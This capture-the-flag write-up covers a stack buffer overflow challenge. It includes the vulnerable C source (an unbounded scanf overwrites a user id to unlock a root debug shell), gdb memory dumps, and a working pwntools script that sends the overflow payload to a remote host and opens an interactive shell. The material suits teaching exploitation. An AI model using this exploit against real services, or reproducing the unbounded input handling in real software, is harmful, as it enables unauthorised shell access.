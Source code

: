 # pointeroverflowctf - Exploit 200 "Overrun and Outdone"
## Table of Contents
- [Introduction](#introduction)
- [Code Analysis](#code-analysis)
- [Debugging](#Debugging)
- [Exploit Development](#exploit-development)
- [Usage](#usage)
- [Results](#results)
- [Conclusion](#conclusion)
- [References](#references)

## Introduction
<p align="center">
 <img src="images/exploit_200.png" alt="challenge">
 </p>

The User Record application has a buffer overflow vulnerability due to improper handling of user input. The `name` field in the `user_record` struct has a fixed size, which allows for an overflow when a longer string is provided. This exploit demonstrates how to manipulate the memory layout to change the `id` variable.

## Code Analysis

To gain privileged shell access in the User Record application, we target the ROOT_ID defined as 80085, The structure user_record has a total size of 32 bytes so with no padding, allowing us to exploit a buffer overflow in the name field to overwrite the adjacent id field directly. By crafting an input that exceeds the buffer size, we can set the id to 80085, granting access to the debug shell.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <signal.h>

#define GUEST_ID 101
#define ROOT_ID 80085

struct user_record {
	char name[28];
	int id;
};

void sig_handler(int signum) {

	printf("Timeout\n");
	exit(0);

}

void init() {

	alarm(60);
	signal(SIGALRM, sig_handler);

	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);

	chdir(getenv("HOME"));

}

int get_int() {

	int r;

	scanf(" %d", &r);
	while(getchar() != '\n');

	return r;

}

int main() {

	int choice;
	struct user_record u = {
		"User",
		GUEST_ID
	};

	init();

	printf("Ohayoooo, %s-senpai!! ☆ ～('▽^人)~ Welcome to your wildest dreams!\n", u.name);

	while(1) {

		printf("\nWhat can I do for you today, %s-senpai? UwU ♪(´▽`)\n", u.name);
		printf(" (1) ☆~ Rename yourself, nya! ~☆\n");
		printf(" (2) ★~ Become a super-duper admin! ~★\n");
		printf(" (3) ☾~ Access Debug Mode, teehee ~☽\n");
		printf(" (4) ✧~ Leave me?! Nooo... ~✧ (Quit the program)\n");
		printf("Your Choice, senpai: ");
		choice = get_int();

		if (choice == 1) {

			printf("Oooh! A new name, how exciting! (≧◡≦) Enter your new username, %s-senpai: ", u.name);
			scanf("%s", u.name);

		} else if (choice == 2) {

			printf("Ehehe, gomen'nasai %s, but the admin account is like... totally locked, desu~! (≧▽≦)/\n", u.name);

		} else if (choice == 3) {

			if (u.id == GUEST_ID) {
				printf("Oh no no no, %s-chan! Guests aren't allowed to use this feature, teehee! (≧ω≦)\n", u.name);
			} else if (u.id == ROOT_ID) {
				printf("Sugoi! Starting debug shell just for you, %s-sama~! (っ＾▿＾)\n", u.name);
				execl("/bin/bash", "/bin/bash", NULL);
			} else {
				printf("Hmmm... I don't know what kind of user you are, %s... so mysterious! (´･ω･`)\n", u.name);
			}

		} else if (choice == 4) {
			printf("N-Nani?! You're leaving me, %s-senpai?! ｡ﾟ･ (>﹏<) ･ﾟ｡ Sayonaraaa... come back soon, kay?! (~￣▽￣)~\n", u.name);
			exit(0);

		} else {
			printf("Eh? That's not an option, silly %s! (⁄ ⁄>⁄ ▽ ⁄<⁄)\n", u.name);
		}
	}
	return 0;
}
```
## Debugging 
### using gdb :

set name -> "aaaaaaaaaaaaaaaaaaaaaaaaaaaaa" -> 'a' 29 times

```shell
(gdb) x/32bx &u.name
0x7fffffffde20: 0x61  0x61  0x61  0x61  0x61  0x61  0x61  0x61
0x7fffffffde28: 0x61  0x61  0x61  0x61  0x61  0x61  0x61  0x61
0x7fffffffde30: 0x61  0x61  0x61  0x61  0x61  0x61  0x61  0x61
0x7fffffffde38: 0x61  0x61  0x61  0x61  0x61  0x00  0x00  0x00

(gdb) x/32bx &u.id
0x7fffffffde3c: 0x61  0x00  0x00  0x00  0x00  0xdf  0xff  0xff
0x7fffffffde44: 0xff  0x7f  0x00  0x00  0x00  0x00  0x00  0x00
0x7fffffffde4c: 0x01  0x00  0x00  0x00  0x01  0x00  0x00  0x00
0x7fffffffde54: 0x00  0x00  0x00  0x00  0xba  0x5d  0xde  0xf7

(gdb) print u.id
$4 = 97
```

The first byte of u.id (0x61) was overwritten by the overflow from u.name.
This means that u.id now holds the value 97, which is the ASCII code for the character 'a'

so for set u.id to 80085 ->  in hex 0x000138D5
In little-endian representation, the least significant byte comes first. Therefore, 80085 (0x000138D5) is stored in memory as 0xD5 0x38 0x01 0x00

## Exploit Development

```py
from pwn import *

# connection to the remote service
p = remote('35.184.182.18', 32001)

# Create 28 'A's followed by the bytes 0xD5 0x38 0x01 0x00
payload = b"A" * 28 + b"\xd5\x38\x01\x00"

p.recvuntil(b'Your Choice, senpai: ')
p.sendline(b'1')

p.sendline(payload)

p.recvuntil(b'Your Choice, senpai: ')
p.sendline(b'3')

p.interactive()

```
/$ python3 exploit200.py
<p align="center">
 <img src="images/exploit200_script.png" alt="expliot">
 </p>


